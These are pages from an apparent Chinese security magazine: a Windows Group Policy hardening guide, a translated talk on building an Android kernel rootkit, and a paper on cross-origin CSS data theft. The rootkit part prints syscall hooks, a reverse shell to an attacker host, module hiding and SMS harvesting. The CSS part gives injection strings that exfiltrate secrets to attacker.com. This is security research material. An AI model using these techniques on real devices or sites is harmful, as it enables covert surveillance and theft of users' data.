- 可以在 RTX 服务器上做任务或跑个程序实时监控 RTX 的安全日志，有异常（如短时间多次失败）就发邮件报警；
- 可以在（2）的基础上更进一步，采用 ipsec 脚本将异常 IP 请求 RTX 的端口限制掉，设定一段时间之后再放行；
- 亦可以将分析 RTX 安全日志的功能与一些 HIDS 进行集成，比如开源的 ossec 系统等；
- 不一定非得针对 RTX，希望大家看完本文之后可以去尝试其他的一些东西，思路都是相通的。

暂时就这么多想法吧，有兴趣的可以到黑防论坛上找我，我的 ID 是 xyskyo。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：服务器、组策略

## Windows 服务器安全加固之组策略篇


文/图 star

Windows 操作系统在服务器上安装非常广泛，企业或个人经常安装的操作系统有 Windows Server 2000、2003 和 2008 等，这些操作系统本身的漏洞我们无法控制，但可以通过系统安全加固手段有效降低自己服务器被黑客入侵的几率。目前常见的加固手段主要包括账户设置、组策略设置、注册表设置、IPSec、服务设置等。本文主要讲解如何通过编程方式操控组策略从而实现 Windows 操作系统的安全加固，如表 1 所示为在组策略中需要进行的相关配置。

名可任意取，一般以 .scb 为后缀名，/cfg 后的文件为我们需要配置的文件。该命令的其他语法和具体使用方法网上可以查到，这里不再赘述。

如何将表中的组策略设置对应到配置文件中，账户策略、账户锁定策略在配置文件中的配置命令格式如何，这些我们可以参考 Windows 自带的配置文件模板，模板位于 `C:\WINDOWS\security\templates` 下。通常配置文件为 INF 格式文件。

在配置文件中，分号“;”代表注释符，其后可跟注释语句。以下为安全加固配置文件的相关设置以及对应的加固选项。

## 表 1 组策略中的相关配置

| 分类 | 配置项 |
|---|---|
| 账户策略 | 密码复杂性要求：启用；最短密码长度：8 位；密码最长使用期限：0 天；密码最短使用期限：0 天；强制密码历史：0 个记住的密码 |
| 账户锁定策略 | 复位账户锁定计数器：5 分钟；账户锁定时间：30 分钟；复位账户锁定阈值：5 次 |
| 审核策略 | 成功、失败：审核账户登录事件、审核账户管理、审核目录服务访问、审核登录事件、审核特权使用；失败：审核对象访问；成功：审核策略更改、审核系统事件；无审核：审核过程追踪 |
| 用户权限指派 | 通过终端服务拒绝登录：无；通过终端服务允许登录：Administrators 组和 remote desktop users 组 |
| 安全选项 | 交互式登录：不显示上次的用户名（启用）；网络访问：不允许 SAM 账户和共享的匿名枚举（启用）；网络访问：不允许为网络身份验证储存凭证（启用）；网络访问：可匿名访问的共享（全部删除）；网络访问：可匿名访问的命名管道（全部删除）；网络访问：可远程访问的注册表路径（全部删除）；账户：重命名系统管理员账户（重命名一个账户） |

```ini
[System Access]
MinimumPasswordAge = 0
MaximumPasswordAge = -1
MinimumPasswordLength = 8
PasswordComplexity = 1
PasswordHistorySize = 0
NewAdministratorName = "testAdministrator"
LockoutBadCount = 5
ResetLockoutCount = 5
LockoutDuration = 30

[Event Audit]
AuditSystemEvents = 1
AuditObjectAccess = 2
AuditPrivilegeUse = 3
AuditPolicyChange = 1
AuditAccountManage = 3
AuditProcessTracking = 0
AuditDSAccess = 3
AuditAccountLogon = 3
AuditLogonEvents = 3

[Registry Values]
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\DontDisplayLastUserName=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\DisableDomainCreds=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\RestrictAnonymous=4,1
```

组策略与注册表的关系非常紧密，许多组策略中的设置可以通过修改注册表，然后用 RefreshPolicy 函数强制刷新组策略来实现（其实有些组策略修改的实质也是修改注册表相关配置），例如表 1 中的“不显示上次的用户名”和“不允许 SAM 账户和共享的匿名枚举”等。但是有些组策略的设置无法通过注册表进行修改，例如表 1 中的账户策略、账户锁定策略、审核策略和用户权限指派等。所以本文通过 Windows 自带的 secedit 这个命令对组策略进行设置，主要用到的命令是 `secedit /configure /db fileName /cfg fileName /quiet`，其中 /db 后的文件……```
MACHINE\System\CurrentControlSet\Control\SecurePipeServers\...
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\NullSessionPipes=7
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\NullSessionShares=7
[Privilege Rights]
SeRemoteInteractiveLogonRight = *S-1-5-32-555,*S-1-5-32-544
SeDenyRemoteInteractiveLogonRight = ...
```

```cpp
if(adminName.Compare(_T("")) != 0) {
    CString strName = _T("...");
    ...
    WideCharToMultiByte(...);
    inf.Write(str, strlen(str));
}

inf.Close();
PROCESS_INFORMATION pi;
STARTUPINFO si;
...
CreateProcess(NULL, command, ...);
CFile::Remove(_T("c:\\czbank.inf"));
CFile::Remove(_T("c:\\czbank.sdb"));
```

如果需要对其他的组策略进行设置，但是又不知道对应的修改项和值，可以采用以下方法：先导出策略为 `.inf`，手工修改后再导出对比，通过文本比较工具（如 ucl.exe）定位需要设置的值。

图 1

下面我们编程实现组策略的设置，思路是：用户选择配置文件，通过 `secedit` 导入组策略并生效，最后清理中间文件，核心代码如下：

```cpp
CFile inf;
inf.Open(_T("c:\\czbank.inf"), ...);
char* str="[Unicode]\r\nUnicode=yes\r\n";
inf.Write(str, strlen(str));
if(用户的选择){
    str="MinimumPasswordAge=0\r\n";
    inf.Write(str, strlen(str));
}
UpdateData(TRUE);
```

以上代码在 Visual Studio 2008 中测试通过，加固操作系统为 Windows Server 2003。

MSDN 中提到可通过 `IGroupPolicyObject` 接口操作组策略（文档链接略），但实际示例较少，作者希望与研究该接口的读者交流讨论。

> （编辑提醒：本文涉及的代码可到黑防官方网站下载）

前置知识：无  
关键词：Android、Rootkit

## Google Android 平台下编写和移植 Rootkit

文 Christian, Nicholas J.（defcon-18） 译 小龙杨

Android 平台的核心是基于 Linux 内核裁剪后的版本，负责设备驱动、资源访问、电源管理等；并作为由操作系统、中间件、用户友好界面和应用软件构成的移动“软件栈”平台。并随着移动设备厂商大面积地采纳 Android 平台，使其地位日益凸显。目前为止，很少有学者讨论移动设备上的 rootkit 技术。Android 平台因基于 Linux 内核开发，使其具备很高的研究与调查价值。Linux 内核在近 20 年内一直是一个开源系统，其内核源代码完全开放，更重要的是基于 Linux 的内核级 rootkit 技术已经十分成熟。

我们已经开发出了一个以可加载内核模块方式运行的内核级 Android rootkit。理论上，它能够接收到系统调用号引发的系统调用，并以 WiFi 或 3G 的方式向攻击者发送一个反向 TCP 连接，即可在 Android 设备上实现 root 级权限完整访问。所带来的影响是巨大的，攻击者可以随意阅读用户设备上的所有短信，任意耗费电话费，甚至可以依靠 GPS 精准定位移动设备用户位置。此类 Rootkit 可借助无线网传播，或者作为一个流氓应用程序安装到用户手机。

### Google Android 平台简述

Android 平台架构与其他操作系统一样，采用了分层架构设计，分为四层，从高层到低层分别是应用程序层、应用程序框架层、系统运行库层和 Linux 核心层。简略的架构图如图 1 所示。

图 1 的最底层即 Linux 核心层，也可看做硬件与软件栈之间的抽象层，基于 Linux 2.6.x 内核版本开发，主要提供内存管理、进程管理、安全性、网络协议栈和驱动模型等。在内核层之上即本地程序库，这些库能被 Android 系统中不同组件使用，并通过 Android 应用程序框架为开发者提供服务。站在 rootkit 研发的观点上，SQLite、WebKit 以及 SSL 是我们感兴趣的部分。SQLite 是 Android 中存储与检索的一大功能；WebKit 是一个开源的浏览器网页排版引擎；而 SSL 则是为了整个通信的加密需求。Android 系统运行时库主体是 Dalvik 虚拟机，它维护着一些程序的运行，即将编译好的 .class 文件通过 SDK 中的 DX 工具转换为 .dex 格式的可执行文件，以更好地适应内存容量和处理器速度的局限。转到应用程序框架层，我们可以看到一些普通用户经常使用的应用程序，如电话应用、家庭应用等，以及其他来自 Google Android 软件市场下载的应用程序。

图 1

我们必须清楚的是，上层的所有应用都必须由 Linux 内核中的相关函数进行响应或参与才能完成。所以，通过劫持内核即可有效地拦截来自上层的所有应用，且可任意改变手机行为。从终端用户、可用性角度来看，图 1 的分层抽象设计结构优点十分突出，但从安全角度考虑，可能就不太好，因为在应用程序框架下层的任意进程操作对用户而言完全透明。

### Linux 内核 Rootkit

可加载内核模块 LKMs 允许运行中的操作系统内核动态扩展。相比传统的重编译内核的方法来增加新的硬件模块或功能，许多现代类 Unix 系统，如 Solaris、Linux 和 FreeBSD，都开始支持或使用 LKMs 来提供更多的扩展性。新的驱动或功能可在任意时刻被加载，且加载到内核中的模块等同于代码被编译进内核。许多现代处理器支持以多种权限模式运行，如 Intel 386 等。当前大多数处理器支持两种模式，即用户模式和特权模式。用户进程（甚至以特权用户运行的进程）运行在用户模式下，仅内核模块运行在特权模式。这种局限性使得操作系统迫使用户进程必须借助系统接口 API 访问硬件资源，如虚拟内存、多任务调度以及硬件访问子系统等。用户模式下请求操作系统服务的方法则是系统调用，如文件操作（open、read、write）、进程操作（fork、exec）、网络通信操作（socket、connect、bind）以及许多其他底层系统操作。Linux 平台中系统调用存放在 `/usr/include/sys/syscall.h` 文件内，所有的系统调用方法都以表的方式存放，即系统调用表 `sys_call_table`，里面存放的值即函数指针地址。请求系统调用的方法，可通过系统调用号在 `sys_call_table` 中匹配对应的方法。当处理器初始化一个系统调用时，它会将系统调用号存放到全局寄存器栈上，并初始化处理器中断或陷门（具体调用依赖处理器的体系架构）。

Linux 中传统的 Rootkit 技术主要是替换系统 Shell 命令，如 ls、ps 以及 netstat，来隐藏攻击者文件、进程和网络连接等。这些 rootkit 通过系统二进制文件完整性检验可以很容易地检测出来。但内核 rootkit 不再是简单地替换系统 Shell，而是在系统内核中对这些命令的具体实现进行修改，如内核 rootkit 可通过 procfs 改变系统内核以隐藏特殊进程，使得正常的 ps 命令获取到的进程信息并不真实，甚至恶意的内核模块可以破坏内核，使其无法通过 lsmod 命令准确地获取当前的内核模块列表信息。通过系统调用重定位，内核 rootkit 可修改函数程序实现执行流，在指定的函数地址处注册一个新的 hook 函数，使得当原函数在执行过程中转入 hook 函数继续执行。

从图 1 可知，我们通过创建一个可实现系统调用劫持并修改函数行为的可加载内核模块 LKM，这不仅仅影响内核以上的整个平台层，而且最终影响终端用户。然而，在 LKM 被创建并最终成功加载进 Android 系统之前，还存在一些必须克服的障碍。不得不克服的首要障碍即如何从移动设备上运行的内核中获取 `sys_call_table` 地址。另外，为了使模块再次编译并成功加载到手机中，如 HTC Legend 运行的 Linux 2.6.29 内核，需要在 HTC Legend 上发布的内核源码基础上编译我们的 rootkit。经审查，由 HTC 发布的内核源码似乎已经遇上了麻烦，即在源码基础上编译后的模块不能加载到设备中。下面，我们将检测每一个障碍，讨论如何编写恶意模块并成功加载到 HTC Legend 中。

### 深度 Android Rootkit 面临的障碍

#### 1. 获取 `sys_call_table` 地址

Linux 内核 2.5 及以上版本不再支持 `sys_call_table` 表结构的导出。2.5 内核之前的版本，LKM 通过声明一个外部变量可以很容易访问 `sys_call_table` 表结构；现在不再如此。文中介绍了通过内核对象操作、SuckIT rootkit 相关思路，以及在 Android 模拟器中定位 `sys_call_table` 地址（如 `0xc0021d24`）的方式。

```bash
root@argon:~/android/kernel-common# grep sys_call_table System.map
c0021d24 T sys_call_table
root@argon:~/android/kernel-common#
```

注意：采用 `System.map` 获取 `sys_call_table` 地址要求系统中存在该文件；裁剪内核时可能不存在。文中进一步讨论了通过中断处理相关入口与 ARM 平台特性来定位系统调用表的思路。

```c
unsigned long *find_sys_call_table() {
    // Android 系统 SWI 地址
    const void *swi_addr = 0xFFFF0008;
    unsigned long *sys_call_table = NULL;
    unsigned long *ptr = NULL;
    unsigned long vector_swi_offset = 0;
    unsigned long vector_swi_instruction = 0;
    // ... 读取向量表、解析偏移、扫描内核代码段
    // ... 根据 zero_fp 等特征定位 sys_call_table
    return sys_call_table;
}
```

```c
if ((ptr & (unsigned long)0xfff0fff) == 0xe3a00000) {
    foundFirstLighthouse = true;
}
if (foundFirstLighthouse && ((ptr & (unsigned long)0xfff00000) == 0xe28f0000)) {
    sys_call_table_offset = ptr & (unsigned long)0x00000fff;
    sys_call_table = (unsigned long)ptr + 8 + sys_call_table_offset;
    break;
}
```

以上代码仅供参考，摘自相关 rootkit 资料页面。

#### 2. 在 HTC Legend 上编译 Linux 内核源码

在 HTC Legend 上加载模块时，可能出现 `vermagic` 与运行内核不匹配，导致 `insmod` 失败（invalid module format）。这与内核版本 magic 字符串校验有关。

```bash
# insmod debug.ko
insmod: can't insert 'debug.ko': invalid module format
```

根据内核模块文档，需要使模块中的版本字符串与目标内核一致。文中给出修改 `/include/linux/utsrelease.h` 的示例。

```text
From:
#define UTS_RELEASE "2.6.29"

To:
#define UTS_RELEASE "2.6.29-g3026a7"
```

图 2

修改后在 HTC Legend 内核源码基础上重新编译模块。

```bash
# insmod debug.ko
# uname -a
Linux localhost 2.6.29-g3026a7 #1 PREEMPT ... armv6l GNU/Linux
```

图 3

此时已找到 `sys_call_table` 地址，并可将模块成功导入到 HTC Legend 运行内核中。

要确定操作手机的各个函数对应的系统调用，即可实现系统调用拦截。接下来将讨论如何完成系统调用的确认。

#### 3. 启动系统调用调试器

我们事先创建了一个用来拦截以下系统调用的调试模块：`sys_write`、`sys_read`、`sys_open`、`sys_close`，具体代码如下。

```c
#include <asm/unistd.h>
#include <linux/autoconf.h>
#include <linux/in.h>
#include <linux/init_task.h>
#include <linux/ip.h>
#include <linux/kernel.h>
#include <linux/kmod.h>
#include <linux/mm.h>
#include <linux/module.h>
#include <linux/string.h>
#include <linux/syscalls.h>
...
asmlinkage ssize_t hacked_write(int fd, char *buf, size_t count) {
    print(KERN_INFO "SYS_WRITE:%s\n", buf);
    return orig_write(fd, buf, count);
}
...
static int __init root_start(void) {
    unsigned long *sys_call_table = 0xc0029fa4;
    ...
    return 0;
}

static void __exit root_stop(void) {
    ...
}

module_init(root_start);
module_exit(root_stop);
```

编译上面的代码并加载编译好的模块到 HTC Legend 当前正在运行的内核中，我们能够使用它们的参数对这些系统调用进行跟踪。这些调用痕迹都会简单地以 `dmesg` 命令的形式输出。

这里，我们假设操作者感染 `rootkit` 的手机，同时触发了一个系统调用号：07841334111。现在通过 grepping 命令来跟踪 dmesg 的输出，发现我们的调试模块捕获到了一个送入的 `sys_read` 系统调用。

更重要的是，我们看到了“AT+CLCC”命令，此命令可列出当前呼叫列表。AT 命令负责通知调制处理器，上层送来了一个系统调用号，即 07841334111。类似地，当一个反向调用触发后，将获取到如下的系统调用痕迹：`<4>[2761.808654] sys_write: ATD+442073734841;`。此时，我们可以知道存在一个潜在方法实现反向调用的重定位，通过劫持 `sys_write` 并修改 `ATD+XXXXXX` 缓冲区。

- 1. 我们可以在 HTC Legend 上找到 `sys_call_table` 地址；
- 2. 我们可以在 HTC Legend 内核源码基础上成功编译 LKM，以绕过 `vermagic` 限制；
- 3. 我们可以劫持 `syscalls`，并从系统调用号处获取到调试信息；
- 4. 通过 `syscall` 调试信息，我们可以找到能够用来劫持的手机函数。

下面摆在我们面前的事情即整合上面的分析，编写我们的 Android rootkit。

## Android rootkit 复现

### 1. hook `sys_read` 系统调用

我们设计的 `rootkit-Mindtrick` 在接收到一个系统调用号引发的系统调用后，会借助 3G/WiFi shell 向攻击者发送一个反向 TCP 连接。此时，攻击者拥有对底层操作系统完整的访问权限，即可任意读取 SQLite3 数据库中存放的短信/彩信内容、请求 GPS 子系统内容，甚至关闭客户手机。

劫持 `sys_read` 系统调用，并解析缓冲区判断是否为 `AT+CLCC` 命令；一旦匹配到命令 `AT+CLCC`，则判断发送的系统调用号是否为攻击者待劫持的调用号，若匹配成功，则调用 `reverseshell()` 函数，代码实现如下：

```c
asmlinkage ssize_t hacked_read(int fd, char *buf, size_t count) {
    if (strstr(buf, "CLCC")) {
        if (strstr(buf, "666666666")) { // 系统调用号
            reverseshell();
        }
    } else {
        return orig_read(fd, buf, count);
    }
}

void reverseshell() {
    static char *path = "/data/local/shell"; // 用户空间应用程序路径
    ...
}
```

```c
char *argv[] = {"/data/local/shell", "attacker", "80", NULL};
// 传递给应用程序的用户空间应用程序的环境变量 envp
static char *envp[] = {"HOME=/", "PATH=/sbin:/system/sbin:/system/bin:/system/xbin", NULL};
call_usermodehelper(path, argv, envp, 1);
```

```c
static void hide_module(void){
    this_module.list.prev->next = this_module.list.next;
    this_module.list.next->prev = this_module.list.prev;
    this_module.list.next = LIST_POISON1;
    this_module.list.prev = LIST_POISON2;
}
```

注意：`call_usermodehelper` 函数主要是用来在内核中启动用户空间的若干指定应用程序，并向用户空间应用程序传递内核信息。`call_usermodehelper` 函数是 usermode-helper API 关键函数之一，实际上 `request_module` 函数封装了 usermode-helper API 的功能并提供了简单的接口。在一个常用的模块中，内核指定一个设备或所需服务并调用 `request_module` 来加载模块。通过使用 usermode-helper API，模块通过 `modprobe` 加载到内核（应用程序通过 `request_module` 在用户空间被调用）。usermode-helper 从调用 `call_usermodehelper_exec` 开始执行（它用于从预先配置好的 `subprocess_info` 结构中创建用户空间应用程序）。该函数接受两个参数：`subprocess_info` 结构引用和一个枚举类型（不等待、等待进程中止及等待进程完全结束）。`subprocess_info` 被压入工作队列 `khelper_wq`，然后队列异步执行调用，即调用 `call_usermodehelper` 函数，启动用户空间应用程序。读者若对整个 usermode-helper API 感兴趣，可以参考相关文章及源码实现。

### 隐藏实现

以下是我们通过操作感染 rootkit 的手机效果：

- 通过访问 GPS 子系统的 `/dev/smd27` 获取 GPS 坐标位置；
- 拦截 GSM 通信；
- 获取手机上的 SMS 数据库信息。

从 `/dev/smd27` 中得到 NMEA 数据，进而获取 GPS 坐标位置，如图 4 所示。

```bash
# cat /dev/smd27
$GPGSV,...
$GPGSV,4,1,76,13,03,289,,05,07,035,,06,17,291,,15,...*43
$GPGSV,4,2,76,16,45,359,,19,37,250,,21,84,327,,23,13,180,*7F
$GPGSV,4,3,76,24,42,234,,29,41,077,,30,27,250,,31,18,221,*7F
$GPGSV,4,4,76,32,,,23,,,,27,,,,26,,,*74
$GPGGA,,,,,,0,,,,,,,,*66
```

图 4

关闭 GSM 通信：`echo -e 'AT+CFUN=0\r' > /dev/smd0`。一些感兴趣的 sqlite3 数据库，如图 5 所示。

```text
/data/com.google.android.providers.gmail/databases/mailstore.user@gmail.com.db
/data/com.android.providers.telephony/databases/mmssms.db
/data/com.android.providers.contacts/databases/contacts2.db
获取 SMS 消息
```

```bash
# sqlite3 ./data/com.android.providers.telephony/databases/mmssms.db
SQLite version 3.5.9
Enter ".help" for instructions
sqlite> .tables
...（短信相关表）...
sqlite> select * from sms;


```

图 5

### 从用户层感染系统隐藏和文件隐藏

当前我们设计的 rootkit 存在一个缺陷：在文件系统上新增了一个二进制文件，即我们的反向 Shell 二进制文件。为了做到更加安全，我们需要隐藏 `/data/local/shell` 文件，此时可利用破坏 `ls` 命令的方法，劫持 `sys_getdents` 系统调用实现。由于手机会频繁重启，我们需要建立一种机制，能够确保机器重启后会自动将 rootkit 模块加载进内核。一种方式是在 `init.rc` 脚本中插入 `insmod` 指令；另一种更优雅的方法是感染内核模块，使得移动设备在开启某项服务时自动加载 rootkit，如当 WiFi 开启时 rootkit 代码自动运行。然而，HTC 存在一种机制，可确保分区下 `init.d` 文件为只读模式。所以，唯一的方法则是对内核进行感染。

Linux 内核中所有内核模块都维护在一个全局链表中，链表头即一个全局变量 `struct module *module`，任何一个新创建的模块都会被加入到链表表头，通过 `modules->next` 即可引用。显然，既然内核模块也是采用链表方式存储，则隐藏内核模块的方式可完全等同于基于 DKOM 技术的进程隐藏。遍历内核模块，在模块链表中摘除指定的内核模块即可。以下方式可用来隐藏 Linux rootkit 模块本身。

### 小结

本文阐述了在 Google Android 平台上编写一个 Linux 内核 rootkit 的可能，并成功地编译了我们设计的 rootkit：Mindtrick，以劫持系统调用。使用系统调用调试器，我们可以挖掘手机中的相关函数，并实施对特定触发事件进行拦截与监控。一旦这些事件触发，我们借助 WiFi/3G shell 立刻向攻击者发送一个反向 TCP 连接，建立其对客户端手机的完整访问。当然，对受感染手机的非法操作并不是无限制，上面给出的非法操作是很有限的攻击，我们也确信未来会有更多研究人员能够劫持更多函数，使得这类攻击更加有效。

前置知识：无  
关键词：浏览器、CSS

## 防御浏览器追踪跨源 CSS 攻击策略

文 Zack Weinberg, Chris Evans 译 小小彬
同源策略（Same Origin Policy，SOP）是一种用于 Web 浏览器解释语言的安全措施，以保护信息的保密性和完整性。同源策略能阻止网站脚本访问其他站点使用的脚本，同时也阻止它与其他站点脚本交互。一个 HTML 文档可以包含来自其他站点的图片、脚本、视频等内容。然而，文档脚本可能不会直接检查从其他网站加载的内容。总而言之，同源策略要求动态内容（如 JavaScript 或 VBScript）只能读取与之同源（主机名、协议和端口号）的 HTTP 应答和 cookies，而不能读取来自不同源的内容。

文档可能包含的另一种内容是层叠样式表（CSS）；HTML 定义内容，JavaScript 定义行为，CSS 则定义页面外观。虽然早在 1993 年就提出了使用样式表语言的建议，但 CSS 真正的发展在 Web 后期。为支持可扩展性，CSS 规范会执行容错解析操作：浏览器跳过其无法解释的 CSS 指令，而执行其能够理解的指令。

这种容错解析也可能导致安全漏洞。若恶意站点能够将选定字符串注入目标网页并以样式表方式加载，攻击者可通过 CSS 解析器行为提取信息。由于浏览器会携带目标站点相关凭据（如 HTTP cookies），攻击可在用户已登录状态下发生。历史上相关问题多次被发现，并与浏览器实现细节密切相关。

本文呈现了该类攻击的一般形式：即使浏览器解析时 JavaScript 被禁用或不支持，只要支持 CSS，攻击仍可能进行。问题不止是 CSS 规范本身，也涉及浏览器在解析前后对跨源资源上下文判断与内容处理规则的实现。

……部署到 Firefox、Chrome、Safari 以及 Opera 浏览器中。

### 理论分析

跨源 CSS 攻击模型包含 Web 攻击者和拥有域名并经营 Web 服务的恶意实体。Web 攻击者从目标网站窃取本属于受害者的数据。

- **攻击者能力**：攻击者只能从自身服务器发送并接收任意网络通信数据，不能修改或窃听受害者发往其他站点的通信，也不能生成欺骗数据包；通常无法在受害者主机安装恶意软件。
- **目标行为**：在服务器端过滤器（如 HTML 解析器）存在可绕过情形时，攻击者可将字符串注入目标站点，甚至注入不可检索页面；常见入口包括 URL 参数反射、站内消息等。
- **受害者行为**：攻击者通过邮件或广告等方式诱导受害者访问恶意站点；假设受害者并未在攻击者站点主动泄露敏感信息。

## 跨源的 CSS 攻击

本节详细呈现跨源 CSS 攻击过程：描述浏览器行为、展示攻击网站步骤、讨论真实执行限制条件，并概述可被攻击的 Web 应用程序。

#### 1. 浏览器行为特点分析

- 浏览器行为（如会话认证、跨源内容包含与容错样式表解析）决定了是否可执行跨源 CSS 攻击。
- 会话认证通常通过 HTTP cookies 或 HTTP 认证维护 session；用户登录后，浏览器会在请求中携带认证信息并接收包含机密数据的响应，请求会产生 HTTP 错误。

#### 2. 跨源内容包含

正如上述讨论的一样，浏览器允许网页包含来自任何来源的图像、脚本和样式表等。跨源资源请求会发送认证信息。来自站点的机密资源可被无法直接阅读的网页包含。在网页中数据对用户可见，但对运行在页面中的脚本不可见。

#### 3. 容错样式表解析机制

同 HTML 相比，CSS 语法同 JavaScript 有更多的共同点。HTML 使用尖括号来分隔嵌套标记。CSS 和 JavaScript 都使用大括号包围块；无论在属性块内或块外，输入文本必须遵循语法规范。然而，CSS 错误处理机制则与 JavaScript 完全不同。

当遭遇 CSS 语法错误时，浏览器会跳过当前的错误语法结构，直到搜索到新语法结构的开始，才重新开始解析。CSS 规范准确定义容错规则，是为了确保浏览器遇到其无法理解的 CSS 新功能时，仍能正常运行。

- 确保括号、方括号和大括号保持匹配和正确嵌套。
- 根据错误语法的位置差异，下一个语法结构可能在下一个分号之后，或在下一个括号封闭的块内。
- 与 JavaScript 一样，`/* ... */` 是被忽略的注释块；但 `//` 并不代表单行注释开始。
- 单引号和双引号的作用也与 JavaScript 一样；而转义字符反斜杠规则不同。
- 样式表的结尾关闭了无语法错误的结构。

HTML 中的左尖括号 `<` 在 CSS 中没有任何意义，这将不可避免地导致语法错误（右尖括号 `>` 可能会出现在 CSS 选择器中）。因此，碰到 HTML 文档的 CSS 解析器将从文件的首个标签即进入跳过模式，并很有可能一直持续到文件结束。

#### 4. 攻击步骤

在跨源 CSS 攻击中，攻击者将字符串注入目标文档，然后诱导受害者访问其恶意网页。该恶意网页导入目标文档（就像导入样式表一样），甚至不用 JavaScript 就能够从被解析的样式规则中提取机密信息。如图 1 所示详细阐述了攻击过程。
> 图 1 跨源攻击实例

#### 5. CSS 字符串注入

可以预见，当把 HTML 文档当做样式表解析时，一定会产生语法错误。然而，根据错误恢复规则，完全有可能将字符串注入文档中，这会导致 CSS 解析器进入错误恢复模式，并将某些文档作为有效规则消耗掉，然后返回跳过模式。即使针对那些需要认证才可以看到的选项，攻击者仍然有许多种将文本注入网页的方法。

在图 1 中，攻击者将两个字符串注入文档：

- `{}#f{font-family:'`，其位于机密信息之前；
- `'} `，其位于机密信息之后。

公开的字符串由三部分组成：当前后文中遇到双字符同步序列时，攻击者可通过查找大括号的存在而安全地假设 CSS 解析器正处于错误恢复模式中。随后利用有效 CSS 规则开头、字体家族字符串常量及闭合规则完成注入，使样式规则被成功解析并且对攻击者文档可见。

#### 6. 跨源 CSS 导入

当受害者访问 attacker.com 网站时，攻击者页面诱导受害者浏览器获取并加载目标文档，并将其作为外部样式表。通过 `link` 标签完成：

```html
<LINK REL='stylesheet' HREF='http://target.com'>
```

或在内部样式表中用 CSS 的 `import` 指令：

```html
<STYLE>@import url(http://target.com)</STYLE>


```

攻击者必须确保网页为 quirks 模式（兼容模式），而这根本不需要任何 DOCTYPE 声明即可做到。

#### 7. 提取机密数据

攻击者将目标文档作为样式表加载后，必须从样式规则中提取机密数据。现有三种方法，某些方法需工作在特定浏览器中，具体情况如表 1 所示。

| Approach | API | IE | FF | Opera | Safari | Chrome |
|---|---|---|---|---|---|---|
| CSS Object Model | styleSheets[].cssText / getMatchedCSSRules().cssText |  |  |  | ✓ | ✓ |
| Computed Style | getComputedStyle / currentStyle | ✓ | ✓ | ✓ | ✓ | ✓ |
| Without JavaScript | background-image, etc. | ✓ | ✓ | ✓ | ✓ | ✓ |

> 表 1 从跨源样式表中提取信息的方法

##### （1）CSS 对象模型

JavaScript 可使用 CSS 样式规则的文本属性来读取被成功解析的样式规则文本，然后使用 XMLHttpRequest 请求或隐藏的 form 表单将机密数据传送给攻击者服务器。`document.styleSheets[].cssRules[]` 数组包含文档所有样式规则对象。Safari 和 Chrome 浏览器提供了 `getMatchedCSSRules` 函数来检索元素匹配样式规则；而 IE、Firefox 和 Opera 已禁止 JavaScript 访问样式规则。

#### （2）被计算的样式（Computed Style）

通过使用多数浏览器支持的标准函数 `getComputedStyle` 或 IE 的 `currentStyle` 可读取样式计算结果并用于后续提取。对于支持 `currentStyle` 对象的情况，JavaScript 还可以有效地为元素检测出被计算样式。攻击者可以确保样式按照包含机密信息的样式规则进行计算。如果按跨源样式表规则进行计算，目前浏览器不会阻止对被计算样式的访问操作，因此只要 JavaScript 可用，就会始终存在变种攻击操作。如图 1 中的 `getComputedStyle(f).style.fontFamily` 属性就会暴露文本。

##### （3）不用 JavaScript 的情况

如图 2 所示，用户禁用 JavaScript，然而该类攻击仍然存在。几个 CSS 属性可引导浏览器加载任意 URL，例如，攻击者可按如下方法注入字符串：

- `}#f{background:url('http://attacker.com/?`，其位于机密信息之前；
- `')}`，其位于机密信息之后。
- ① 受害者登录到目标站点。  
- ② 一段时间后，攻击者诱导受害者访问其网站，并以表单方式在目标主机上请求隐私页面。  
- ③ 受害者的浏览器在隐私页面中发现注入的 CSS 规则。  
- ④ 浏览器从攻击者站点请求“背景图片”，然后传送机密数据。

如果攻击者页面中存在与规则匹配的元素，那么浏览器就会尝试从攻击者服务器中加载背景图片。

#### 8. 攻击的局限性

攻击者进行跨源 CSS 攻击的能力受到结构和目标站点行为的限制。

#### （1）注入点的不足

被窃取的隐私数据被封装在 CSS 字符串常量、属性值或样式规则中。攻击者必须将两个字符串注入到包含机密数据的文档中：一个字符串用来启动规则，另一个结束规则。收集用户提交数据的站点（如博客评论）相对更容易受到攻击；攻击者可先注入一个字符串，再等待一段时间再注入另一个字符串。此外，必须出现在机密数据之后的字符串往往很简单（如结束单引号和右花括号），并且很可能已经出现在目标页中。

##### （2）单引号

CSS 字符串常量可用单引号或双引号书写。除非用反斜杠将符号转义，否则双引号不能出现在双引号引用的字符串中，单引号不能出现在单引号引用的字符串中。因此如果被窃取的机密数据包含单引号，那么攻击者必须在注入字符串中使用双引号，反之亦然。若机密数据同时包含两种引号，或攻击者无法预测引号类型，攻击可能失败。但在 IE 浏览器中，未引用的 URL 可能包含未转义引号。

##### （3）换行符

除非用反斜杠进行转义，否则 CSS 字符串常量和未引用的 URL 都不能包含换行符。因此，机密信息内的任何换行符都将导致攻击失败。HTML 网页往往包含许多换行符，这保护了许多目标站点免受 CSS 数据窃取攻击。然而，多功能站点通常提供基于 URL 的 API 函数，其不用换行符就可以用自定义 JSON 或 XML 格式传送机密信息，这些 API 容易受到 CSS 窃取攻击。许多站点提供移动网址供访问（屏幕小、带宽有限），常见优化方案是跳过不必要空白（含换行符）。IE 浏览器允许 CSS 字符串常量和 URL 中存在未转义换行符；若受害者使用 IE，攻击更易成功。

##### （4）字符转义

旨在消除用户提交内容中恶意代码的服务器端过滤器很常见，但常跳过危险 HTML 属性并剔除 JavaScript 关键字。由于注入字符串不会出现在 HTML 属性中，因此它们并不会阻止跨源 CSS 攻击，并且 CSS 与 JavaScript 共享部分关键字。某些过滤器还会用相同 HTML 实体替换特殊标点符号。由于单引号和双引号在 HTML 与 JavaScript 中含义重大，它们常被替换。若注入字符串中的任何标点符号被实体替代，攻击将失败。

##### （5）UTF-7 编码

通过用 UTF-7 预编码被替换字符，攻击者有可能打败用实体替代标点符号的过滤器。例如，如果目标站点用实体替换单引号却保留其他标点符号，被注入字符串将会成为如下形式：

- `}#f{font-family:+ACI,`，其位于机密信息之前；
- `+ACI-}`，其位于机密信息之后。

